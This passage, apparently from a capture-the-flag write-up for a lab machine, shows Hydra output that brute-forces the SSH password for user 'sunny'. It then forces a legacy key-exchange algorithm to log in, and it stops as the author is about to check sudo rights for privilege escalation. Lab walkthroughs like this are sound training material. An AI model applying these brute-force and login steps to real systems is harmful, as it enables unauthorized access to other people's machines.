 ```
                                                           
[STATUS] 217.00 tries/min, 217 tries in 00:01h, 1367 to do in 00:07h, 16 active                                                                                                                                                             
                                                                                                                                                                                                                                            
[STATUS] 159.00 tries/min, 477 tries in 00:03h, 1110 to do in 00:07h, 16 active                                       
[ERROR] ssh target does not support password auth                                                                                                                                                                                           
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday                                                      
1 of 1 target successfully completed, 1 valid password found                                                          
[WARNING] Writing restore file because 12 final worker threads did not complete until end.                            
[ERROR] 12 targets did not resolve or could not be connected                  
[ERROR] 0 target did not complete                                                                                     
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-28 21:57:51
```

And we can see the following output:

```
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday 
```

So the username is `sunny` and the password is `sunday`. Let's try to ssh in!

```
root@kali-[~]ssh sunny@10.10.10.76 -p 22022
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

And we get an error: "Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1." This happens because the client and server were unable to agree on the key exchange algorithm most likely because the key exchange algorithms available on this host are legacy. There is a way to force OpenSSH to enable a certain key exchange algorithm so that we can connect to this host with the `KexAlgorithms` option. Using this option and providing the key we want to use will enable that key exchange algorithm for us to use.

```
root@kali-[~]ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$
```

And we are logged in! I'm going to try `sudo -l` which lists what commands I can run as `sudo` which can possibly escalate our privileges to the root user.
